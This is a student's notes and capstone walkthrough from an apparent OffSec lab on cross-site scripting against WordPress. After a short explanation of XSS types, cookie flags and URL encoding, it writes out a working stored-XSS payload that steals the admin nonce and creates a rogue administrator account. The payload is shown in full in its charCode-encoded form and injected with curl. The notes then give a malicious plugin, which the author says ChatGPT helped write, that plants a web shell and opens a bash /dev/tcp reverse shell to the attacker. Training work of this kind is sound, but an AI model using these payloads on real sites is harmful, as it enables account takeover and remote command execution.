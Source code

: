[_Cross-Site Scripting_](https://owasp.org/www-community/attacks/xss/) (XSS)is a vulnerability that exploits a user's trust in a website by dynamically injecting content into the page rendered by the user's browser.

One of the most important features of a well-defended web application is [_data sanitization_](https://en.wikipedia.org/wiki/Data_validation), a process in which user input is processed so that all dangerous characters or strings are removed or transformed. Unsanitized data allows an attacker to inject, and potentially execute, malicious code.

- Stored XSS attacks_, also known as _Persistent XSS_, occur when the exploit payload is stored in a database or otherwise cached by a server.
	- often exist in forum software, especially in comment sections, in product reviews, or wherever user content can be stored and reviewed later.
- _Reflected XSS attacks_ usually include the payload in a crafted request or link. The web application takes this value and places it into the page content. This XSS variant only attacks the person submitting the request or visiting the link.
	- can often occur in search fields and results
- DOM-based XSS attacks occur when a browser parses the page's content and inserted JavaScript is executed

The [Secure](https://en.wikipedia.org/wiki/Secure_cookie) flag(cookie) instructs the browser to only send the cookie over encrypted connections, such as HTTPS. This protects the cookie from being sent in clear text and captured over the network.

The [HttpOnly](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies) flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

---


**Commonly Used URL Encodings**

| **Character**    | **URL Encoded** | **Character** | **URL Encoded** |
| ---------------- | --------------- | ------------- | --------------- |
| Space            | %20             | :             | %3A             |
| " (double quote) | %22             | ;             | %3B             |
| #                | %23             | <             | %3C             |
| $                | %24             | =             | %3D             |
| %                | %25             | >             | %3E             |
| &                | %26             | ?             | %3F             |
| ' (single quote) | %27             | @             | %40             |
| (                | %28             | [             | %5B             |
| )                | %29             | \|%5C         |                 |
| *                | %2A             | ]             | %5D             |
| +                | %2B             | ^             | %5E             |
| ,                | %2C             | {             | %7B             |
| /                | %2F             | `             | `               |
| ?                | %3F             | }             | %7D             |
| @                | %40             | ~             | %7E             |
example:
```
<script>alert(1)</script>
would be
%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

  
CapStone:

3. **Capstone Lab**: Start Module Exercise VM 1 and add a new administrative account like we did in this Learning Unit. Next, craft a WordPress plugin that embeds a web shell and exploit it to enumerate the target system. Upgrade the web shell to a full reverse shell and obtain the flag located in **/tmp/**. Note: The WordPress instance might show slow responsiveness due to lack of internet connectivity, which is expected.

#### Step 1, add new admin user:

I Open dev tools, notice all cookies are HTTP-Only so we need to find another attack vector

we could craft a JavaScript function that adds another WordPress administrative account, so that once the real administrator executes our injected code, the function will execute behind the scenes

To develop this attack, we'll build a similar scenario as depicted by [Shift8](https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/). First, we'll create a JS function that fetches the WordPress admin [_nonce_](https://developer.wordpress.org/reference/functions/wp_nonce_field/).
	 - The nonce field is used to validate that the contents of the form came from the location on the current site and not somewhere else. The nonce does not offer absolute protection, but should protect against most cases. It is very important to use nonce field in forms.

As mentioned, to perform any administrative action, we need to first gather the nonce. We can accomplish this using the following JavaScript function:

```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

This function performs a new HTTP request towards the **/wp-admin/user-new.php** URL and saves the nonce value found in the HTTP response based on the regular expression. The regex pattern matches any alphanumeric value contained between the string _/ser" value="_ and double quotes.

Now that we have nonce, we can use the function below to create a new admin user once the admin goes to the page where the imbedded code is:
```
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

Combine the two scripts above and then compress **
To ensure that our JavaScript payload will be handled correctly by Burp and the target application, we need to first minify it, then encode it. https://jscompress.com/

 we are going to encode the minified JavaScript code, so any bad characters won't interfere with sending the payload. We can do this using the following function:

```
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
convert each character into the corresponding UTF-16 integer code using the [_charCodeAt_](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/charCodeAt) method

We are going to decode and execute the encoded string by first decoding the string with the [_fromCharCode_](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/fromCharCode) method, then running it via the [_eval()_](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) method. Once we have copied the encoded string, we can insert it with the following **curl** command and launch the attack:

```
kali@kali:~$ curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```

next start burp and put intercept on and verify the encoded script is in user-agent header, and forward.

Now we wait for the real admin to go to the page where the script is store, this will create a new admin with our credentials provided and we now have admin access to do whatever, v cool!

note the credentials are username: attacker, email: attacker@offsec.com, password: attackpass

#### Step 2, craft wordpress plugin:
I am able to read php but writing it is different story, I asked chatgpt to create me a php file that will reverse the webshell back to me on port 9001:

```
<?php
/**
 * Plugin Name: Malicious Shell
 * Plugin URI: http://attacker.com/
 * Description: A simple plugin to create a web shell and a reverse shell.
 * Version: 1.0
 * Author: Attacker
 * Author URI: http://attacker.com/
 */

function create_webshell() {
    $shell_code = '<?php
    if(isset($_GET["cmd"])) {
        echo "<pre>";
        system($_GET["cmd"]);
        echo "</pre>";
    }
    ?>';

    file_put_contents(WP_CONTENT_DIR . "/uploads/shell.php", $shell_code);
}

function reverse_shell() {
    $ip = "192.168.45.230"; // Change to YOUR Kali IP
    $port = 9001;           // Change to YOUR Listening Port

    $reverse_shell = '/bin/bash -c "bash -i >& /dev/tcp/' . $ip . '/' . $port . ' 0>&1"';
    shell_exec($reverse_shell);
}

// Create Web Shell
register_activation_hook(__FILE__, 'create_webshell');

// Execute Reverse Shell
register_activation_hook(__FILE__, 'reverse_shell');
?>
```

I edit the holly dolly plugin to the above, since we are admin in wordpress we can do this:

#### Step 3, get tmp flag

next i will run netcat listener on port 9001(same port in php file we edited):
```
nc -lvnp 9001
```

now that we are set i just activate the plugin and bang i got the reverse shell and i just cd back to / and went into tmp and found flag.txt

:D

